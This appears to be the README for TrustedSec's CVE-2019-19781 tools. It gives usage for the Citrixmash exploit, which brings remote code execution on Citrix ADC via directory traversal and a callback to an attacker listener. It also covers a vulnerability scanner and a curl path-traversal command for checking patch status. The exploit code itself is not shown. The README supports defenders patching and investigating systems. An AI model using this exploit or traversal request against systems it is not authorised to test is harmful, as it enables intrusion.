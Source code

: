 # CVE-2019-19781

This was only uploaded due to other researchers publishing their code first. We would have hoped to have had this hidden for awhile longer while defenders had appropriate time to patch their systems.

We are all for responsible disclosure, in this case - the cat was already out of the bag.

Exploits: CVE-2019-19781

## Citrixmash (CVE-2019-19781 exploit)

root@stronghold-nix:/home/relik/Desktop/git/cve-2019-19781# python citrixmash.py 

Citrixmash v0.1 - Exploits the Citrix Directory Traversal Bug: CVE-2019-19781
Tool Written by: Rob Simon and Dave Kennedy
Contributions: The TrustedSec Team 
Website: https://www.trustedsec.com
INFO: https://www.trustedsec.com/blog/critical-exposure-in-citrix-adc-netscaler-unauthenticated-remote-code-execution/
Forensics and IOCS: https://www.trustedsec.com/blog/netscaler-remote-code-execution-forensics/

This tool exploits a directory traversal bug within Citrix ADC (NetScalers) which calls a perl script that is used
to append files in an XML format to the victim machine. This in turn allows for remote code execution.

Be sure to cleanup these two file locations:
    /var/tmp/netscaler/portal/templates/
    /netscaler/portal/templates/

Note that DNS hostnames and IP addresses are supported in victimaddress and attackerip_listener fields.

Usage:

python citrixmash.py <victimaddress> <victimport> <attackerip_listener> <attacker_port>

usage: citrixmash.py [-h] target targetport attackerip attackerport

## CVE-2019-19781 Scanner

This is a simple test to see if the server is still vulnerable to CVE-2019-19781.

Usage: python3 cve-2019-19781.py <serverip> <serverport>

Note you can use CIDR notations such as 192.168.1.1/24 and hostnames as well.

It will result if the server is still vulnerable or not. You can only do one server at a time.

CVE-2019-19781-Scanner
Company: TrustedSec
Written by: Dave Kennedy
This will look to see if the remote system is still vulnerable to CVE-2019-19781. This 
will only scan one host at a time.
You can use CIDR notations as well for example: 192.168.1.1/24
You can use hostnames instead of IP addresses also.
Example: python3 cve-2019-19781_scanner.py 192.168.1.1/24 443
Example2: python3 cve-2019-19781_scanner.py 192.168.1.1 443
Example3: python3 cve-2019-19781_scanner.py fakewebsiteaddress.com 443
Example4: python3 cve-2019-19781_scanner.py as15169 443
Example5: python3 cve-2019-19781_scanner.py 192.168.1.1/24 443 verbose
Usage: python3 cve-2019-19781_scanner.py targetip targetport

usage: cve-2019-19781_scanner.py [-h] target targetport [verbose]


## Manually Validate Patch

If you want to test to see if this exposure is mitigated use the following:

curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is

Either a 403 means that you are patched or if it returns a Citrix website and NOT the smb.conf file itself.

If you can see smb.conf, then you are vulnerable.

## Installation

To install the requirements, you will need to run the command below. 

pip3 install -r requirements.txt
